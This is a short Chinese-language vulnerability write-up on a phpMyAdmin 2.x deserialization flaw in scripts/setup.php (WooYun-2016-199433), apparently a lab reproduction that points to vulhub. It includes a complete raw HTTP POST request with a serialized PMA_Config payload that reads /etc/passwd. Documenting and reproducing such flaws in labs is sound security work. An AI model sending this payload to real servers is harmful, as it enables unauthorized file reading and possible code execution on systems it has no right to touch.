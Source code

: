 （WooYun-2016-199433）Phpmyadmin scripts/setup.php 反序列化漏洞
===============================================================

一、漏洞简介
------------

phpmyadmin
2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

二、漏洞影响
------------

phpmyadmin 2.x

三、复现过程
------------

发送如下数据包，即可读取`/etc/passwd`：

    POST /scripts/setup.php HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 80

    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

![1.png](./resource/(WooYun-2016-199433)Phpmyadminscripts_setup.php反序列化漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/phpmyadmin/WooYun-2016-199433/README.zh-cn.md
